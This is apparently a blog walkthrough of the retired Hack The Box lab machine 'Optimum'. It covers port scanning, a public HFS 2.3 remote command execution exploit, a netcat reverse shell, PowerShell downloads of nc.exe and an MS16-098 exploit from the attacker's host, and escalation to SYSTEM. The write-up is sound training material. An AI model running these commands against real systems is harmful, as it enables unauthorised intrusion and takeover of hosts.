 ```yaml
---
layout: post
title:  "HTB-Optimum"
date:   2020-02-17 00:01:57 +0000
categories: HTB-Walkthrough
---
```


![optimum](/assets/img/optimum.png)

Optimum is another OSCP-like box from the HTB 'retired' archive.


`nmap -sV -Pn --min-rate 10000 10.10.10.8 |tee -a opt.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 11:51 EST
Nmap scan report for 10.10.10.8
Host is up (0.092s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

`searchsploit hfs 2.3`

```

----------------------------------------------------- ----------------------------------
 Exploit Title                                       |  Path
                                                     | (/opt/exploitdb/)
----------------------------------------------------- ----------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary F | exploits/multiple/remote/30850.tx
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remo | exploits/windows/webapps/34852.tx
----------------------------------------------------- ----------------------------------

```

We'll check out the python script, `searchsploit -m 39161.py` will copy the exploit to the pwd.
...looks promising...

```

python 39161.py 10.10.10.8 80

```

we get user shell...to our nc listener on port 443.

```

root@kali:~/HTB/retired/optimum# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.8] 49172
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

31/01/2020  03:52 ��    <DIR>          .
31/01/2020  03:52 ��    <DIR>          ..
31/01/2020  03:21 ��    <DIR>          %TEMP%
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.898.783.744 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0xxxxxxxxxxxxxxxxxxxxxx73

```

#########################

User flag down, now we need to privesc to get the root.txt flag.

Use `powershell iwr -uri http://10.10.14.19/nc.exe -outfile .\nc.exe`
do the same for winPEAS.bat

Sometimes "iwr" won't work, and you'll have to type out the long version 'Invoke-WebRequest'.


run `winPEAS.bat > enum.txt` then send enum.txt via nc.

do `systeminfo`
copy output and paste to kali machine.

try [winddows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

The resulting output is voluminous, so I won't paste it all here...
I selected ms16-098 and downloaded the exploit from github...

served it with `python3 -m http.server 80`
I used the IWR (Invoke-WebRequest)powershell command to move the file into my boo folder on the target.

```

C:\boo>powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe
powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe

```

So just run it....

```

C:\boo>c:\boo\b.exe
c:\boo\b.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\boo>whoami
whoami
nt authority\system

```

From here we can just grab the root.txt flag...

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxxed

```

:)



